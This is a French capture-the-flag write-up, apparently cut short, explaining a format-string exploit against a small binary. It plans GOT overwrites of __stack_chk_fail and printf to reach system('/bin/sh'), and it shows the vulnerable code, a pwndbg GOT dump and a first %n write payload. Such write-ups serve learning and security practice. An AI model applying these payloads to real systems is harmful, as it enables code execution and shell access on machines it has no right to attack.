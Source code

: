 ## Exploitation

L'exploitation de ce programme peut se diviser en 5 phases:
1. réécrire l'entré de la fonction `__stack_chk_fail` dans la GOT pour boucler sur le main (faire un appel récurssif)
2. leaker une adresse de la libc pour déterminer l'adresse de base de la libc
3. boucler sur le `main` et réécrire l'entré de `printf` dans la GOT par l'adresse de la fonction `system` que nous aurons déterminer à partir de l'adresse de base de la libc.
4. Envoyer `/bin/sh` dans le buffer et ainsi lorsque celui-ci sera passer à `printf` nous aurons notre shell.
5. Tripel Karmeliet

### __stack_chk_fail et leak libc

Le programme étant compilé avec des stack cookies, il ne nous ai théoriquement pas possible de faire un overflow, sauf si nous arrivons à remettre le cookie sur la stack (ce qui dans notre cas serai possible, grâce à la format string), mais comme le programme n'a pas de FULL-RELRO, nous pouvons alors réécrire la GOT et tirer avantage de la fonction `__stack_chk_fail` qui est appeler lorsque le cookie est invalide en fin de fontion, en remplacant son adresse par l'adresse d'une autre fonction qui nous arrange plus.

```c
int main(void)
{
  long in_FS_OFFSET;
  char buffer [264];
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28); 
  printf("What is your name: ");
  _fgets(0,buffer,0x120);
  printf("Hello ");
  printf(buffer);
  
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
      // si le canary est invalide
      __stack_chk_fail();
  }
  return 0;
}
```

Pour réécrire une adresse gràce a une format string, on peut utiliser le formatteur `%n` qui écris le nombre de caratère déjà imprimé à l'adresse fourni en paramètre (pour rappel: si aucun paramètre n'est fournie, printf utilisera ce qui se trouve sur la stack, la chaine de caractère que nous lui envoyons se trouvant aussi sur la stack nous pouvons lui donner une chaine du type : `AAAAAAAA%8$n\x00XXX<adresse>` et ainsi écrire 8 à l'adresse que nous lui fournirons).

```
pwndbg> start
pwndbg> got

GOT protection: Partial RELRO | GOT functions: 6
 
[0x601018] _exit@GLIBC_2.2.5 -> 0x4005f6 (_exit@plt+6) ◂— push   0 /* 'h' */
[0x601020] write@GLIBC_2.2.5 -> 0x400606 (write@plt+6) ◂— push   1
[0x601028] __stack_chk_fail@GLIBC_2.4 -> 0x400616 (__stack_chk_fail@plt+6) ◂— push   2
[0x601030] setbuf@GLIBC_2.2.5 -> 0x400626 (setbuf@plt+6) ◂— push   3
[0x601038] printf@GLIBC_2.2.5 -> 0x400636 (printf@plt+6) ◂— push   4
[0x601040] read@GLIBC_2.2.5 -> 0x400646 (read@plt+6) ◂— push   5

pwndbg> b* 0x004007e1
pwndbg> r < <(python -c 'print "AAAAAAAA%8$n\x00BBB(\x10`\x00\x00\x00\x00\x00"')
What is your name: Hello AAAAAAAA
Breakpoint 2, 0x00000000004007e1 in ?? ()
```